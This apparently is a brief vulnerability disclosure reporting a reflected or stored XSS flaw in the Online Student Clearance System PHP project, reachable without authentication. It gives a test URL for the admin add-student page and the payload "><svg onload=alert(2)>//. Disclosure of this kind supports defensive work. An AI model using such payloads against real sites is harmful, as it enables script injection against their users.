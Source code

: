 The Online Student Clearance System has an xss vulnerability. Attackers can exploit this vulnerability without authentication, thereby affecting the normal function.





Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html







Vulnerability verification：

```
http://192.168.1.8:80/student_clearance/admin/add-student.php

"><svg onload=alert(2)>//
```

 ![image-20250427212324419](images/image-20250427212324419.png)



Insert payload："><svg onload=alert(2)>//

![image-20250427212333218](images/image-20250427212333218.png)































